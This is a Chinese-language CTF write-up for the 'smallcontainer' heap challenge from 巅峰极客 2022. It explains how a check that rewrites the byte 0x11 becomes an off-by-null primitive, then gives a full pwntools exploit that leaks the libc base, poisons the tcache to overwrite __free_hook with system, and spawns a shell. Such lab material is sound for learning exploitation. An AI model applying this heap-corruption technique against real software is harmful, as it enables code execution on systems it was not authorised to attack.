




# [巅峰极客 2022]smallcontainer

从题目上来说这是一个2.27-3ubuntu1.5_amd64 的版本的libc，从题目上可以知道我们的保护是全开的

但是我们在这里的保护其实可以不用特别的去关心










上面的截图都是在多个函数这些函数点我们可以明白一个方向就是他最大只能写17个chunk，并且大小要大于0xff小于0x3ff，同时在edit模块中发现了check函数这里可以知道当堆块中出现**\x11**的时候会把这个数据改为0，因此我们可以使用这个方法来构造一个类似于offbynull的方法因此我们可以明确我们的构造手法


```py
from pwn import *
from pwn import u64,u32,p64,p32
# from ae64 import AE64
import requests
#netstat -tuulp

context(arch='amd64',os='linux',log_level='debug')
p = process("/home/fofa/smallcontainer/smallcontainer")
# p =remote("node4.anna.nssctf.cn",28522)
context.log_level='debug'
libc = ELF("/home/fofa/smallcontainer/libc-2.27.so")
elf = ELF("/home/fofa/smallcontainer/smallcontainer")


uu64     = lambda data                  :u64(data.ljust(8, b'\x00'))
leak     = lambda tag, addr             :log.info(tag + " -------------> " + hex(addr))
get_addr = lambda                       :u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

def get_sb() : return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug(point):
    if point == 0:
        gdb.attach(p)
    else:
        gdb.attach(p,point)
r = lambda : p.recv()
rn = lambda x: p.recv(x)
rl = lambda : p.recvline()
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
close = lambda : p.close()
shell = lambda : p.interactive()

# from ctypes import *
# my_libc= cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")

def add(size):
    sla("> ","1")
    sla("size: ",str(size))
def delete(idx):
    sla("> ","2")
    sla("index: ",str(idx))
def edit(idx,c):
    sla("> ","3")
    sla("index: ",str(idx))
    s(c)
def show(idx):
    sla("> ","4")
    sla("index: ",str(idx))
#这里创建四个我们自己使用的堆块
add(0x1f8)#0
add(0x1f8)#1
add(0x1f8)#2
add(0x208)
#覆盖tcache
for i in range(4,11):
    add(0x1f8)
for i in range(4,11):
    delete(i)

#这里修改chunk3的最后一个字节大小的数这里的作用是让我们这里四个chunk会进行一个合并

edit(3,b'\x00'*0x1f0+p64(0)+p64(0x11))


#伪造上面那个chunk合并
edit(2,b'b'*0x1f8)
edit(2,b'b'*0x1f0+p64(0x600))
delete(0)
delete(3)
#成功合并
gdb.attach(p)
pause()

#这里我们获取libc
add(0x200)#0
show(0)
libc_base = int(rn(12),16) - 0x3ec190
leak("libc_base",libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system,binsh = get_sb()
#这里后面就是在把chunk3和0放到一个独立的tcache中是的可以构造一个fd但是由于我们没有free chunk1 因此我们可以直接控制chunk3的fd和bk因此我们完成的构造
add(0x200)#3
delete(0)
delete(3)
edit(1,p64(0) + p64(0x211) + p64(free_hook))
add(0x200)
edit(2,"/bin/sh\x00")
add(0x200)#free_hook  3
edit(3,p64(system))
delete(2)


shell()


```

